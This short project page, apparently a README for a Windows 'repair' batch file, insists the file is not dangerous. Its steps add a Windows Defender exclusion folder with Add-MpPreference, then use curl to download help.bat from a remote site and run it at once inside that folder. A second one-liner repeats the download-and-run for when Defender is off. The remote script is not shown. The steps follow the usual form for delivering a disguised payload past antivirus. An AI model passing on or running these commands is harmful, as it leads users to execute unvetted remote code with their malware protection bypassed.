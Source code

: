 This is a batch file for repair.

The contents are not dangerous.
However, since I couldn't think of a way to complete it with commands alone, I am creating an exclusion folder.


powershell
```
mkdir C:check
Add-MpPreference -ExclusionPath C:check
```
cmd
```
cd C:check
curl -s https://yuyu1815.github.io/win-repair/help.bat -o script.bat && script.bat
```
del
```
rmdir /s C:check
```


When Windows Defender is not working
```
curl -s https://yuyu1815.github.io/win-repair/help.bat -o script.bat && script.bat
```
